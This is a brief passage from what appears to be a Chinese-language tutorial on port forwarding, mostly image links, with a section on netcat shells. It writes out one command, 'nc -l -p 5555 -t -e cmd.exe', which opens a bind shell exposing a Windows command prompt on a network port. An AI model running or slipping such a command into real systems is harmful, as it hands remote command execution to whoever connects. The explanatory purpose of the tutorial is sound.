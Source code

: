 ![](../pictures/port-forwarding-6.png)    

![](../pictures/port-forwarding-7.png)    

## 0x03 nc 反弹

### 正向连接

在内网执行  

`nc -l -p 5555 -t -e cmd.exe`  
![](../pictures/port-forwarding-8.png)    
